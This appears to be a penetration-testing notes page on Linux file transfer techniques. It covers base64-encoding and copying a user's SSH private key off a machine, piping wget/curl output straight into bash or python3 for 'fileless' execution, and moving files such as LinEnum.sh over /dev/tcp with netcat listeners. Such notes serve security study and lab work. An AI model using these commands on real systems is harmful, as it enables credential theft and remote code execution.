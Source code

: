 # File Transfers

## Linux File Transfer Methods

### Base64 encoding

This is helpful in scenarios like <mark style="color:green;">copying the ssh key of a user to our local machine.</mark>

```bash
$cat id_rsa |base64 -w 0;echo
#Now we decode the data on the other machine:
$echo -n "encoded string" | base64 -d > id_rsa
```

to verify if the transfer was indeed successful we could check the md5 hashes on the two machines:

```bash
$md5sum id_rsa
```

### cURL / wget

```bash
$wget <url> -O output_filename
$curl <url> -o output_filename
```

We could turn the functioning of pipes to our advantage to make a fileless attack.&#x20;

```bash
$wget -q0- <url_to_a_bash_script> | bash
$curl  <url_to_a_python_script> | python3
```

{% hint style="danger" %}
The <mark style="color:red;">`-qO-`</mark> option is necessary for wget to function correctly because if not specified, it will indeed download the file. <mark style="color:red;">`-`</mark> stands for STDOUT which is then piped directly to the python interpreter.
{% endhint %}

### Download with Bash (/dev/tcp)

We should start a listener on a machine (our host or the target's) then use the built-in /dev/TCP device file to open a connection.

```bash
attack@attack$nc -nlvp <port>
```

<pre class="language-bash"><code class="lang-bash">target@target$exec <a data-footnote-ref href="#user-content-fn-1">3&#x3C;></a>/dev/tcp/machine-to-connect-to/port
target@target$echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&#x26;3
target@target$cat &#x3C;&#x26;3 > LinEnum.sh # Reads from FD3 and saves it to LinEnum.sh
</code></pre>

Or you could upload the file from your machine using:

```bash
target@target$nc -lvp 4444 > file_on_target
```

```bash
attack@attack$exec 3<>/dev/tcp/target-ip/port
attack@attack$cat my_file >&3
```

And finally to close the connection:

```bash
$exec 3<&- 3>&-
```

{% hint style="info" %}
<mark style="color:blue;">In conclusion, the</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`/dev/tcp/hostname/ip`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">is our go-to if the wget, cURL or any other method can't work since it might be already compiled (it is by default as long as bash is v2.04 or greater).</mark>

<mark style="color:blue;">The idea is to</mark>

* <mark style="color:blue;">open a listener on a machine (target or attacking host)</mark>
* &#x20;<mark style="color:blue;">launch a connection with the built-in dev file from the other.</mark>
* <mark style="color:blue;">Use a GET request or</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`cat`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">command and then rediret it to the FD... It all depends on the need and the method available since inbound or outbound connections could be denied and restricted.</mark>

<mark style="color:blue;">About the 3<> part of the command :</mark>

* <mark style="color:blue;">`3`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">refers to the file descriptor number. In Unix-like systems, file descriptors are used to manage input/output streams. File descriptors</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`0`</mark><mark style="color:blue;">,</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`1`</mark><mark style="color:blue;">, and</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`2`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">correspond to standard input, output, and error, respectively. The number</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`3`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">is chosen here to create a new file descriptor for the TCP connection.</mark>
* <mark style="color:blue;">The</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`<>`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">syntax means "open for reading and writing." This opens the file descriptor</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`3`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">as both readable and writable, allowing you to send data to and receive data from the remote server.</mark>
{% endhint %}

[^1]: Explained below.

